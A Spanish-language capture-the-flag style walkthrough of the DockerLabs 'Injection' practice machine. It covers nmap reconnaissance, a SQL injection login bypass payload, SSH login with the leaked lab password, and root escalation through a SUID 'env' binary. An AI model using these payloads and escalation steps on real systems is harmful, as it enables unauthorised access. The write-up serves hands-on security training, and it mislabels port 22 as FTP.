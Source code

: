 # Write Up First Hacking

**Dificultad:** Super fáil<br>
**Enlace a dockerlabs:** https://dockerlabs.es/

## Configuración del entorno
Primero de todo desplegamos la máquina mediante el script que viene al descargar la máquina
```
❯ sudo ./auto_deploy.sh injection.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, creamos la carpeta injection, nos metemos dentro y usamos la utilidad *mkt* que nos crea las carpetas *nmap*, *content*, *exploits* y *scripts*.

```
❯ mkdir injection-dockerlabs
❯ cd injection-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 content
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 exploits
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 nmap
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 scripts
```
## Reconocimiento
Lo primero que realizamos es un reconocimiento general con nmap sobre la máquina víctima, para obtener los puertos abiertos. 
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Una vez obtenemos los puertos abiertos, realizamos un escaneo mas exhaustivo mediante scripts de reconocimiento para obtener los servicios de cada puerto y la versión en la que corren

```
❯ extractPorts allPorts
[*] Extracting information...

   [*] IP Address: 172.17.0.2
   [*] Open ports: 22,80

[*] Ports copied to clipboard

❯ nmap -sCV -p22,80 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 17:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.31 seconds
```

De esta manera descubrimos que el servicio que está corriendo en el puerto 22 (puerto FTP) es el OpenSSH 8.9p1 y en el puerto 80 (puerto http) está corriendo un servicio web Apache httpd 2.4.52.

## Explotación
Como hemos visto que hay un servicio web corriendo en la máquina víctima procedemos a ver la web, añadiendo el dominio (en este caso no tiene y simplemente pondremos el nombre de la máquina) al archivo */etc/hosts* de nuestra máquina virtual (es el archivo de configuración de DNS local).

```
❯ sudo vi /etc/hosts
❯ cat /etc/hosts
127.0.0.1   localhost
127.0.1.1   kali

172.17.0.2  injection

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Una vez configurado el archivo */etc/hosts* procedemos a acceder a la página web, y vemos que es un formulario de login.

![Web](../.sources/image.png)

Probamos a introducir los parámetros básicos para comprobar si hay inyección SQL. Para ello hay que introducir la cadena *admin' OR '1' = '1'; --* en el apartado de usuario y cualquier cosa en password (en mi caso he puesto *hacked!*) para que deje enviar el formulario, y si todo va bien, podremos entrar siendo los administradores (si no va con el usuario admin se puede ir cambiando a root, administrator, y cosas parecidas, pero sin perder mucho el tiempo).

```
User: admin' OR '1' = '1'; --
Password: hacked!
```

Y bingo! Estamos dentro y obtenemos las credenciales de el usuario Dylan

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Al haber obtenido esas credenciales, podemos probar a acceder mediante el puerto ssh también abierto.

```
ssh dylan@injection
dylan@injection's password: (aquí ponemos el password)
dylan@6b329dffcb35:~$ 
```

Y ya tenemos acceso a la máquina!

## Escalada de privilegios

Para poder utilizar la consola de una manera mas cómoda podemos hacer el siguiente tratamiento de la terminal:

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Ahora que tenemos una terminal buscamos archivos (a poder ser binarios) con usuario root y el flag *setuid* activo y encontramos los siguientes:

```
dylan@6b329dffcb35:/bin$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/chsh
```

Así que usamos el comando env de la siguiente forma y elevamos privilegios a root

```
dylan@6b329dffcb35:/bin$ ./env /bin/sh -p
# whoami
root
# 
```